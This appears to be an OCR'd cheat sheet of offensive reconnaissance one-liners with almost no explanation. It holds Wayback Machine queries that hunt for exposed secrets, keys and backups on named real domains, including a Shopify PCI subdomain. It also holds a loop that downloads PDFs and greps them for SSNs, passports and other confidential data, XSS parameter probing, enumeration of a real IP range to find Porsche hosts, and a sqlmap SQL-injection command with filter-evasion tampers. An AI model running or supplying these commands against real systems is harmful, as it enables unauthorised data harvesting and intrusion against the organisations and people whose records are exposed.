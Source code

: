 [https://web.archive.org/cdx/search/cdx?url=target.com/*&output=text&fl=original&collapse=urlkey](https://web.archive.org/cdx/search/cdx?url=target.com/*&output=text&fl=original&collapse=urlkey)
For subdomains (wildcard search) [https://web.archive.org/cdx/search/cdx?url=*.pci.shopifyinc.com/*&output=text&fl=original&collapse=urlkey&filter=statuscode:200](https://web.archive.org/cdx/search/cdx?url=*.pci.shopifyinc.com/*&output=text&fl=original&collapse=urlkey&filter=statuscode:200)

For specific extesnion [https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original&filter=original:.*\.(xls|xml|xlsx|json|pdf|sql|doc|docx|pptx|txt|zip|tar\.gz|tgz|bak|7z|rar|log|cache|secret|db|backup|yml|gz|git|config|csv|yaml|md|md5|exe|dll|bin|ini|bat|sh|tar|deb|rpm|iso|img|apk|msi|env|dmg|tmp|crt|pem|key|pub|asc|js)$](https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original&filter=original:.*\.\(xls|xml|xlsx|json|pdf|sql|doc|docx|pptx|txt|zip|tar\.gz|tgz|bak|7z|rar|log|cache|secret|db|backup|yml|gz|git|config|csv|yaml|md|md5|exe|dll|bin|ini|bat|sh|tar|deb|rpm|iso|img|apk|msi|env|dmg|tmp|crt|pem|key|pub|asc|js\)$)

Find sensitive Data in PDFs cat output.txt | grep -Ea '\.pdf' | while read -r url; do curl -s "$url" | pdftotext - - | grep -Eaiq '(internal use only|confidential|strictly private|personal & confidential|private|restricted|internal|not for distribution|do not share|proprietary|trade secret|classified|sensitive|bank statement|invoice|salary|contract|agreement|non disclosure|passport|social security|ssn|date of birth|credit card|identity|id number|company confidential|staff only|management only|internal only)' && echo "$url"; done

  

💰 👍 Find hidden params in javascript files  

assetfinder *.com | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"


getting full class
for i in $(seq 0 255); do
  echo "212.9.180.$i"
done > ips_212_9_180.txt


check which on belong
cat ips_84_21.txt ips_212_9_180.txt | sort -u   | httpx -ports "80,443,8080,8000,3000,8443,8888" -silent -timeout 10 -status-code -title -web-server -threads 100 | grep -i porsche   | awk '{print $1}'   | sed 's/\[//;s/\]//'   | sort -u > porsche_ips.txt


$ sqlmap -r reound.txt  --flush-session --dbs --banner --current-user --dbms=mysql --technique=BT  --time-sec=5 --level=3 --risk=2  --tamper=space2comment,randomcase --batch --threads=2 -v 3 --ignore-code 401
